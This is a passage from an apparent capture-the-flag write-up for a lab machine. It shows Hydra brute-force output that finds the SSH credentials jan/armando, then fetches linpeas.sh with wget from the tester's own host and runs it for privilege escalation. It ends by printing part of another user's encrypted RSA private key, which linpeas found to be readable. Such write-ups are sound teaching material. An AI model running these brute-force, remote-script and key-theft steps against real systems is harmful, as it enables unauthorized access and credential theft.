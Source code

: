 [STATUS] 133.00 tries/min, 399 tries in 00:03h, 14344002 to do in 1797:30h, 16 active
[22][ssh] host: 10.10.201.220   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete

```
**login: jan   password: armando**  

### Privilege Escalation to kay user
We log in to jan ssh user.
I'll be transfering linpeas.sh script for privesc by:

```python -m http.server 8080``` where you have linpeas.sh located.  
I want to wget get this file to /tmp directory, so I'll cd into that  
```cd /tmp```

```wget http://<YOUR_THM_IP>:8080/linpeas.sh```  
```chmod +x linpeas.sh```  
```./linpeas.sh```

```bash
[+] Searching ssl/ssh files
/home/kay/.ssh/authorized_keys
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
Port 22
PermitRootLogin prohibit-password
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes
Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow


Searching inside /etc/ssh/ssh_config for interesting info
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes
    GSSAPIDelegateCredentials no

```
We see that the user kay is authenticating with ssh key. And it even looks like we have read access to this private key!

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ
o9dyIEJB4wUZTueBPsmb487RdFVkTOVQrVHty1K2aLy2Lka2Cnfjz8Llv+FMadsN
XRvjw/HRiGcXPY8B7nsA1eiPYrPZHIH3QOFIYlSPMYv79RC65i6frkDSvxXzbdfX
AkAN+3T5FU49AEVKBJtZnLTEBw31mxjv0lLXAqIaX5QfeXMacIQOUWCHATlpVXmN
lG4BaG7cVXs1AmPieflx7uN4RuB9NZS4Zp0lplbCb4UEawX0Tt+VKd6kzh+Bk0aU
hWQJCdnb/U+dRasu3oxqyklKU2dPseU7rlvPAqa6y+ogK/woTbnTrkRngKqLQxMl
lIWZye4yrLETfc275hzVVYh6FkLgtOfaly0bMqGIrM+eWVoXOrZPBlv8iyNTDdDE
3jRjqbOGlPs01hAWKIRxUPaEr18lcZ+OlY00Vw2oNL2xKUgtQpV2jwH04yGdXbfJ
LYWlXxnJJpVMhKC6a75pe4ZVxfmMt0QcK4oKO1aRGMqLFNwaPxJYV6HauUoVExN7
bUpo+eLYVs5mo5tbpWDhi0NRfnGP1t6bn7Tvb77ACayGzHdLpIAqZmv/0hwRTnrb
RVhY1CUf7xGNmbmzYHzNEwMppE2i8mFSaVFCJEC3cDgn5TvQUXfh6CJJRVrhdxVy
```